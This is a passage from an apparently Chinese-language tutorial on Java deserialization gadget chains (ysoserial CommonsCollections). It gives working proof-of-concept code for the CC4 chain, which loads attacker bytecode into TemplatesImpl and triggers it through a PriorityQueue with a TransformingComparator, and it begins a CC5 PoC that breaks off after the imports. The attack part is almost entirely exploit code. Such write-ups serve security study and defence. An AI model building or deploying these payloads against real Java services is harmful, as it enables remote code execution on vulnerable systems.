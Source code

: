 	        TemplatesImpl templates = TemplatesImpl.class.getConstructor(new Class[0]).newInstance();
	        Class<? extends TemplatesImpl> clazz = templates.getClass();
	        // 将恶意字节码填充到TemplatesImpl对象中
	        Field bytecodes = clazz.getDeclaredField("_bytecodes");
	        bytecodes.setAccessible(true);
	        bytecodes.set(templates,new byte[][]{evalByte});
	
	        // 还需要设置TemplatesImpl对象的_name属性，否则不能顺利执行：TemplatesImpl#getTransletInstance()
	        Field name = clazz.getDeclaredField("_name");
	        name.setAccessible(true);
	        name.set(templates,"p1n93r");
	
	        // 现在TemplatesImpl准备好了，需要一个类反序列化时触发：TemplatesImpl#newTransformer
	        // 使用PriorityQueue类反序列化触发
	        PriorityQueue<Object> res = new PriorityQueue<>(2);
	        // 为啥不在这个地方添加TemplatesImpl对象：因为add操作会触发比较，而TemplatesImpl没有实现Comparable接口
	        // 所以只能后面用反射进行添加了
	        res.add(1);
	        res.add(1);
	
	        // 现在将TransformingComparator和TemplatesImpl对象设置到PriorityQueue中，
	        // 使得PriorityQueue反序列化时调用TransformingComparator#tranformer(chainedTransformer)，从而触发整个利用链
	        Class<? extends PriorityQueue> resClazz = res.getClass();
	
	        // 就是将CC2中的InvokerTransformer换成ChainedTransformer
	        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
	                new ConstantTransformer(TrAXFilter.class),
	                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
	        });
	
	        // 设置PriorityQueue的comparator
	        Field comparator = resClazz.getDeclaredField("comparator");
	        comparator.setAccessible(true);
	        comparator.set(res,new TransformingComparator(chainedTransformer));
	
	        // 此时和CC2不同的是，不需要在PriorityQueue中添加TemplatesImpl对象了
	
	        return res;
	    }
	
	    public static void main(String[] args)throws Exception {
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	}

调用栈入下所示，和CC2差不多，就是换了个Transformer而已，需要CommonsCollection4依赖：

![CC4调用栈][p13]

### CC5
给出POC如下：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import org.apache.commons.collections.Transformer;
	import org.apache.commons.collections.functors.ChainedTransformer;
	import org.apache.commons.collections.functors.ConstantTransformer;
	import org.apache.commons.collections.functors.InvokerTransformer;
	import org.apache.commons.collections.keyvalue.TiedMapEntry;
	import org.apache.commons.collections.map.LazyMap;
	import javax.management.BadAttributeValueExpException;
	import java.lang.reflect.Field;
	import java.util.HashMap;
	import java.util.Map;
	